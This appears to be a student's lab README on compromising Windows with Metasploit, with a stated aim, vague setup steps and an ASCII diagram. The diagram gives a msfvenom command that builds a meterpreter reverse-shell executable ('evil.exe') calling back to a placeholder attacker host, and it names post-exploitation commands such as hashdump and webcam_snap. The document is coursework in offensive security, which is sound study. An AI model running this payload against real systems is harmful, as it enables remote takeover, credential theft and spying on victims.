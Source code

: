 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### NAME: MOHAN RAJ C
### REGISTER NUMBER: 212223040114

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+
```